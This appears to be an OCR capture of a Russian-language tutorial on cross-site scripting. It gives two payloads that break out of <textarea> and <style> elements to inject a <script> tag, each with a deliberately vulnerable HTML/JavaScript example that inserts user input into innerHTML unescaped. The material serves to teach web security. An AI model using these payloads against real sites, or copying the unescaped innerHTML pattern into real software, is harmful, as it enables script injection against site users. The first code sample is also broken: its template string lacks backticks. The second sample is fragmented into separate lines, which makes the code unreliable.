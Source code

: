 
#### Выход за пределы элемента `<textarea>`

Пейлоад:
`</textarea>'><script>alert('XSS Attack!');</script>`


Пример уязвимого JavaScript-кода:
```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>XSS Example</title>
</head>
<body>
    <textarea id="commentInput"></textarea>
    <button onclick="addComment()">Добавить комментарий</button>

    <script>
        function addComment() {
            const comment = document.getElementById('commentInput').value;
            document.body.innerHTML += <textarea>${comment}</textarea>; // Уязвимый код
        }
    </script>
</body>
</html>
```


#### Выход за пределы элемента `<style>`

Пейлоад:
`</style></textarea>'><script>alert('XSS Attack!');</script>`


Пример уязвимого JavaScript-кода:
`<!DOCTYPE html>`
`<html lang="en">`
`<head>`
    `<meta charset="UTF-8">`
    `<title>XSS Example</title>`
    `<style id="dynamicStyle"></style> <!-- динамический стиль -->`
`</head>`
`<body>`
    `<input type="text" id="styleInput" value="">`
    `<button onclick="addStyle()">Добавить стиль</button>`

    `<script>`
        `function addStyle() {`
            `const styleContent = document.getElementById('styleInput').value;`
            `document.getElementById('dynamicStyle').innerHTML += styleContent; // Уязвимый код`
        `}`
    `</script>`
`</body>`
`</html>`
